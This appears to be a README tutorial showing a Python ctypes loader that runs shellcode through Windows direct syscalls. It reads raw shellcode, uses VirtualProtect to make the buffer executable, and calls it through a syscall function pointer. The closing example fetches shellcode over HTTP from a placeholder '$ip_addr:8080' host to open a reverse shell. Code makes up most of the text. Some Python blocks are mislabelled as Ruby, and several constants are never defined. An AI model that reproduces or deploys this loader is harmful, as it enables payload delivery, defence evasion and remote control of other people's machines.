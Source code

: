 # Direct SysCalls

Direct syscalls allow us to bypass the Win32 API layer and directly interact with the kernel by performing system calls. Each syscall is identified by a unique number, which can vary across different Windows versions. These numbers can be identified using debuggers or public syscall number lists.

This program demonstrates how to leverage Python and the `ctypes` library to execute direct system calls.

## References

- [System call - Wikipedia](https://en.wikipedia.org/wiki/System_call)
- [Windows Syscall tables by j00ru](https://github.com/j00ru/windows-syscalls)
- [VirtualProtect Documentation](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

## Building the Program

In this script, raw shellcode is read from a file and stored in memory with its protection changed using the VirtualProtect function, allowing it to be executable.

The script begins by importing necessary modules from the ctypes library, which provides tools to interact with low-level Windows APIs.

```python
import time
from ctypes import *
from ctypes import wintypes
```

The shellcode is loaded from a file named `shellcode` and stored in a buffer:

```python
with open("shellcode", "rb") as shellcode:
    buf = create_string_buffer(shellcode.read())
```

The `VirtualProtect` function is used to change the protection of the allocated memory region to `PAGE_EXECUTE_READ_WRITE`. This step ensures that the shellcode can execute within the process's memory space:

```ruby
VirtualProtect = windll.kernel32.VirtualProtect

VirtualProtect.argtypes = (
    wintypes.LPVOID,  # Address of the memory region
    SIZE_T,           # Size of the region in bytes
    wintypes.DWORD,   # New protection settings
    wintypes.LPDWORD  # Pointer to store the old protection settings
)

VirtualProtect.restype = wintypes.INT

lpAddress = addressof(buf)              # Address of the shellcode buffer
dwSize = len(buf)                       # Size of the shellcode buffer
flNewProtect = PAGE_EXECUTE_READ_WRITE  # Enable execute and read/write permissions
lpflOldProtect = byref(wintypes.DWORD(0))

VirtualProtect(
    lpAddress,
    dwSize,
    flNewProtect,
    lpflOldProtect
)
```
A syscall prototype and function pointer are defined to execute the shellcode directly. The `syscall_type` defines the expected arguments and return type of the syscall function:

```ruby
syscall_type = CFUNCTYPE(
    NTSTATUS,                # Return type of the syscall
    wintypes.HANDLE,         # Handle to the process
    POINTER(wintypes.LPVOID),# Pointer to the base address
    wintypes.ULONG,          # Zero bits for address alignment
    POINTER(wintypes.ULONG), # Pointer to the region size
    wintypes.ULONG,          # Allocation type flags
    wintypes.ULONG           # Memory protection flags
)

syscall_function = syscall_type(lpAddress)

ProcessHandle = 0xffffffffffffffff  # PseudoHandle representing the current process
BaseAddress = wintypes.LPVOID(0x0) # Starting address for allocation
ZeroBits = wintypes.ULONG(0)       # Alignment bits
RegionSize = wintypes.ULONG(1024 * 15) # Memory size to allocate

# Commit and reserve memory / # Enable execute and read/write permissions
AllocationType = MEM_COMMIT | MEM_RESERVE
Protect = PAGE_EXECUTE_READ_WRITE       

ptr = syscall_function(
    ProcessHandle,
    byref(BaseAddress),
    ZeroBits,
    byref(RegionSize),
    AllocationType,
    Protect
)
```

Finally, if the function call is successful, we print the base address of the allocated memory region and wait for 3 minutes to allow inspection.

```python
if ptr == 0:
    print("Direct Syscall: pointer ->", hex(BaseAddress.value))
    time.sleep(180)
```

## Example Output

The program executes the shellcode loaded from the `shellcode` file, performing the actions encoded within it.

In this example, I used the requests module to fetch the shellcode from an HTTP server and open a reverse shell. The rest of the code remains unchanged.

```python
import requests

r = requests.get("http://$ip_addr:8080/shellcode")
buf = create_string_buffer(r.content)
```

![screenshot](https://github.com/user-attachments/assets/82007541-24b0-4863-8224-012747e85f3a)

